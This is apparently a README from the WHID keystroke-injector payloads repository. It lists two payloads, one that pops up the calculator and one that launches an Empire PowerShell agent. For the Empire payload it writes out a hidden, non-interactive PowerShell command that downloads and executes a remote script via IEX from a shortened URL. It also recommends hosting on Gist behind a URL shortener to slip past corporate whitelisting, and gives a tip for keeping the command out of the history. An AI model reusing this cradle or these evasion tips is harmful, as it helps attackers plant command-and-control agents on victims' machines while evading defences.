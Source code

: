 # PAYLOADS # https://github.com/whid-injector/WHID/tree/master/Payloads

- [win]_empire-PS.txt

This Payload will execute an Empire Powershell launcher, which usually I host on Gist and then use google shortener to shorten the URL.
Most corporate environments are whitelisting both gist.github.com and google, so it is easy to deploy an agent in this way. (of course this payload will leave the command `powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')"` into the cmd history. But you just need to execute it in a cmd to avoid it (no history, but takes more time to type).

- [win]_pop-calc.txt

Will pop-up the classic calculator

- More to come...
